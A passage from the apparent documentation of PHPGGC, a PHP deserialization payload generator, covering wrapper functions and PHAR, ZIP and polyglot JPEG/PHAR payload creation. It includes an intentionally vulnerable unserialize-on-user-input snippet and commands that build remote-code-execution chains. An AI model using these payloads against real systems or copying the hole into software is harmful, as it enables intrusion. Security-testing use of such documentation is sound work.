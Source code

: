 ```php
<?php
$data = unserialize($_GET['data']);
print $data['message'];
```

You could use a `__toString()` chain, wrapping it like so:

```php
<?php
# /tmp/my_wrapper.php
function process_object($object)
{
    return array(
        'message' => $object
    );
}
```

And you'd call phpggc like so:

```
$ ./phpggc -w /tmp/my_wrapper.php slim/rce1 system id
a:1:{s:7:"message";O:18:"Slim\Http\Response":2:{...}}
```


## PHAR(GGC)

### History

At BlackHat US 2018, @s_n_t released PHARGGC, a fork of PHPGGC which instead of building a serialized payload, builds a whole PHAR file. This PHAR file contains serialized data and as such can be used for various exploitation techniques (`file_exists`, `fopen`, etc.). The paper is [here](https://cdn2.hubspot.net/hubfs/3853213/us-18-Thomas-It's-A-PHP-Unserialization-Vulnerability-Jim-But-Not-As-We-....pdf).

### Implementation

PHAR archives come in three different formats: **PHAR, TAR, and ZIP**. The three of them are supported by PHPGGC.
Polyglot files can be generated using `--phar-jpeg` (`-pj`). Other options are available (use `-h`).

### Examples

```
$ # Creates a PHAR file in the PHAR format and stores it in /tmp/z.phar
$ ./phpggc -p phar -o /tmp/z.phar monolog/rce1 system id
$ # Creates a PHAR file in the ZIP format and stores it in /tmp/z.zip.phar
$ ./phpggc -p zip -o /tmp/z.zip.phar monolog/rce1 system id
$ # Creates a polyglot JPEG/PHAR file from image /tmp/dummy.jpg and stores it in /tmp/z.zip.phar
$ ./phpggc -pj /tmp/dummy.jpg -o /tmp/z.zip.phar monolog/rce1 system id
```
